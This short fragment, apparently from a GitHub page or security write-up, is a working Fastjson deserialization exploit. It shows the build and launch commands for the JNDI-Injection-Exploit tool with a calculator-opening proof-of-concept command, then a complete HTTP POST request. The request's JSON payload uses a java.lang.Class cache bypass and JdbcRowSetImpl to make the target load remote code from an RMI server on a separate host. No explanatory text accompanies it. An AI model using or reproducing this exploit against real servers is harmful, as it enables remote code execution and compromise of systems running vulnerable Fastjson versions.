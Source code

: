  mvn clean package -DskipTests

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
 
 
POST / HTTP/1.1
Host: 10.0.197.178:8090
Content-Type: application/json;charset=UTF-8
Content-Length: 260
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://10.0.196.59:1099/9qdegn",
        "autoCommit":true
    }
}